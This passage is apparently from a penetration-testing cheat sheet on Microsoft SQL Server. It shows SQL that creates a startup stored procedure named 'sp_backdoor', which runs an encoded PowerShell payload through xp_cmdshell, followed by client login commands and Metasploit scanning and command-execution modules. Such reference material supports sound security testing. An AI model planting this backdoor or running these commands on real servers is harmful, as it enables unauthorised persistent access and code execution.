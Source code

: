 #### Startup Stored Procedures
```sql
-- Create startup procedure
USE master;
GO
CREATE PROCEDURE sp_backdoor
AS
EXEC xp_cmdshell 'powershell -enc <base64_payload>';
GO

-- Mark as startup procedure
EXEC sp_procoption 'sp_backdoor', 'startup', 'on';
```

## Tools

### Command Line Clients
```bash
# sqlcmd (Windows)
sqlcmd -S target -U sa -P password

# sqsh (Linux)
sqsh -S target -U sa -P password

# Impacket mssqlclient
impacket-mssqlclient sa:password@target
```

### GUI Tools
- SQL Server Management Studio (SSMS)
- Azure Data Studio
- DBeaver
- HeidiSQL

### Metasploit Modules
```bash
# Scanner modules
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/mssql/mssql_ping
use auxiliary/scanner/mssql/mssql_hasdbaccess
use auxiliary/scanner/mssql/mssql_enum

# Admin modules
use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_exec
use auxiliary/admin/mssql/mssql_enum_sql_logins
```

## Security Considerations

